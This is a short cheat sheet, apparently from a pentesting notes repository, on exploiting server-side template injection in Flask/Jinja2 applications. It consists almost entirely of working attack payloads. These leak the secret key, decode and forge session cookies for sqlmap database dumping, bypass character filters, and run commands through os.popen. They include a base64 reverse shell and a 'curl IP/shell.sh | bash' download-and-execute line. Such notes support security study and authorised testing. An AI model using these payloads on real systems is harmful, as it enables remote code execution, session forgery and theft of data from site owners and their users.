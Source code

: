 # Server side template injection
## Flask Jinja2 
Get the secret key
```txt
{{ config }}
```
Decrypt the cookie
```bash
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
```
SQLi in flask session with sqlmap
```bash
sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump
```
Bypass filtered ->  `'` `_` `.` `{{}}` `if` `for` 
```txt
{% with abuqasem=request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo <Base64EncodedReverseShellCommand> | base64 -d | bash -i")["read"]() %}abuqasem{% endwith %}
```
To exploit SSTI by image upload
```python
{% with abuqasem=request["application"]["__globals__"]["__builtins__"]["__import__"]("os")["popen"]("curl IP/shell.sh | bash")["read"]() %}
{{ abuqasem }}
{% endwith %}
```
### Further reading
- [https://hackmd.io/@Chivato/HyWsJ31dI](https://hackmd.io/@Chivato/HyWsJ31dI)  
-  [https://chowdera.com/2020/12/20201221231521371q.html](https://chowdera.com/2020/12/20201221231521371q.html)  
-  [https://jinja.palletsprojects.com/en/2.10.x/templates](https://jinja.palletsprojects.com/en/2.10.x/templates)/
 - [https://book.hacktricks.xyz/pentesting/pentesting-web/flask](https://book.hacktricks.xyz/pentesting/pentesting-web/flask)
